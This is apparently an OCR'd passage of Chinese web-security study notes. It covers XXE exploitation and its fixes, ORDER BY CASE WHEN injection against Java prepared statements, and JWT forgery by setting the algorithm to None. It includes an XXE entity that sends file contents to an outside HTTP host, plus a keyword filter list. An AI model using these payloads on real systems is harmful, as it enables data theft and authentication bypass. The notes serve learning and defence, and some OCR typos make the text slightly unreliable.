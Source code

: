 "<!ENTITY &#x25; send SYSTEM
'http://192.168.0.103:8081/?data=%file;'>"
#这个变量的作用在于定义send变量，把file变量的内容发回来

%payload;

怎么找传输xml的接口？

1.数据格式类型判断	例：<user>test</user><pass>Mikasa</pass>
2.Content-Type值判断：text/xml；application/xml
3.更改Content-type值，再提交攻击xml（盲猜服务器会接收xml数据，如本来type是application/json，就可以尝试改成application/xml，提交xml的payload)



#xxe漏洞修复与防御方案-php,java,python-过滤及禁用
#方案1-禁用外部实体
PHP:
libxml_disable_entity_loader(true);
JAVA:
DocumentBuilderFactory dbf=DocumentBuilderFactory.newInstance( );dbf.setExpandEntityReferences(false);
Python:
from lxml import etree
xmlData=etree.parse(xmlSource,etree.XMLParser(resolve entities=False)

#方案2-过滤用户提交的xml数据
过滤关键词：<！DOCTYPE和<！ENTITY,或者SYSTEM和PUBLIC



JAVA安全-JWT安全及预编译CASE注入等

1.预编译CASE注入

绕过java预编译sql语句，条件是服务器的sql语句中必须用了order by，

如select name, id, age from user order by ?;		也就是根据什么字段排序，涉及到排序功能

通过使用case when语句可以将order byl后的orderExpressioni表达式中添加select语句。

payload：case when(sql注入语句)

2.JWT安全

JSON Web Token(JSON Web令牌)是一种跨域验证身份的方案。JWT不加密传输的数据，但能够通过数字签名来验证数据未被算改。

jwt内容格式是：头部.声明.数字签名 

签名(Signature)
服务器有一个不会发送给客户端的密码(secret)），用头部中指定的算野法对头部和声
明的内容用此密码进行加密，生成的字符串就是JWT的签名。
下面是一个用HS256生成JWT的代码例子
HMACSHA256 (base64UrlEncode (header)+"."+
base64UrlEncode (payload),secret)

**jwt修改伪造攻击**

问题来了，因为J的声明内容变了，因此签名需要重新生成，生成签名又需要密码，我们没有密码呀？不要慌，我们直接去掉签名就好~修改头部为None
在HTTP传输过程中，Base64编码中的"=”，"+”，"/"等待殊符号通过UL解码通常容
易产生歧义，因此产生了与URL兼容的Base64 URL编码
